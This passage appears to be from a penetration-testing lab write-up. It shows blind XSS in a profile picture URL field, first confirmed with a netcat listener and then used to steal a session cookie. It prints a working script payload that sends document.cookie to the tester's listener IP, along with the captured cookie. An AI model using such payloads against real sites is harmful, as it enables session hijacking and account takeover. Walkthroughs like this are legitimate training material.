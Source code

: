 ![](./attachments/Pasted%20image%2020220514165453.png)

We recieved a request from the web server asking for `/URL`, this means that the `Profile picture URL` field is vulnerable to XSS attacks.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80                     
listening on [any] 80 ...
connect to [10.10.15.133] from (UNKNOWN) [10.129.103.213] 47276
GET /URL HTTP/1.1
Host: 10.10.15.133
(...)
```

Now we can hijack the cookie with the following payload.

Payload: `haxx"><script>new Image().src='http://10.10.15.133/index.php?c='+document.cookie</script>`

Once again we recieve a request, this time containing the hijacked cookie.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.15.133] from (UNKNOWN) [10.129.103.226] 52312
GET /index.php?c=cookie=c00k1355h0u1d8353cu23d HTTP/1.1
Host: 10.10.15.133
(...)
```

